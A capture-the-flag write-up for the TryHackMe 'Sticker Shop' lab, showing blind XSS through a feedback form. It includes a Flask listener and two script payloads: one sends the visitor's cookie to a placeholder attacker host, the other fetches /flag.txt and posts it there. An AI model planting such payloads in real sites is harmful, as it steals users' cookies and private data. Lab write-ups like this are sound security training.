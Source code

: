 ```yaml
---
layout: default
title: The Sticker Shop THM - Write up
theme: minima
---
```


# The Sticker Shop THM - Write up (Easy)

## Description
Can you read the flag at http://10.10.102.26:8080/flag.txt?

## Accessing http://10.10.102.26:8080
There is home pageand one feedback page.
![image](https://github.com/user-attachments/assets/b9cfa04d-081c-4b59-8fef-717107a3bba8)

most likely we have to put our payload on the feedback page.

## Trying to access http://10.10.102.26:8080/flag.txt
![flag.txt](https://github.com/user-attachments/assets/9d160fb6-df50-41bd-8cc2-adebbaf590d0)

it returns "401 Unauthorized".

## Trying XSS
Common Reflected XSS playloads didnt work for me in the feedback page. so I accessed the hint which says "Can you conduct any client-side exploitation in order to read the flag?". 
I became certain that there is XSS in the page. I tried for blind XSS.

### Creating a server
I Created a simple server using flask.
![image](https://github.com/user-attachments/assets/b51c2017-5a94-424b-be59-5e132a634a54)

Code: 
```
from flask import Flask, request

app = Flask(__name__)

@app.route('/', methods=['POST'])
def capture_flag():
    data = request.data.decode('utf-8')
    print(f"Received data: {data}")
    return 'Data received!', 200

if __name__ == '__main__':
    app.run(host='ATTACKER_IP', port=8000)
```
### Running the server
![image](https://github.com/user-attachments/assets/84e46136-cae4-4683-91e4-4078c506cb07)

### Putting the payload
![image](https://github.com/user-attachments/assets/c841d029-aa28-4c46-84fc-7a22251ead9a)
payload:
```
<script>document.location='http://ATTACKER_IP:8000/xss?cookie=' + document.cookie</script>
```
Enter the payload and click submit.

### Output
![image](https://github.com/user-attachments/assets/f1780783-0d26-4fbb-8d0e-ae540c56086f)
The paylaod works, the website doesnt use cookies so theres no cookie showing.

## Getting the flag

### Putting the payload
![image](https://github.com/user-attachments/assets/051da70d-5c1a-4434-bc7e-46843c5c6e6c)

payload for the flag:
```
<script>
    fetch('/flag.txt')
        .then(res => res.text())
        .then(flag => fetch('http://ATTACKER_IP:8000', {method: 'POST', body: flag}));
</script>
```
click submit.

### output
![image](https://github.com/user-attachments/assets/43386fd9-82d9-4abf-8e81-105357d232e9)
got the flag.









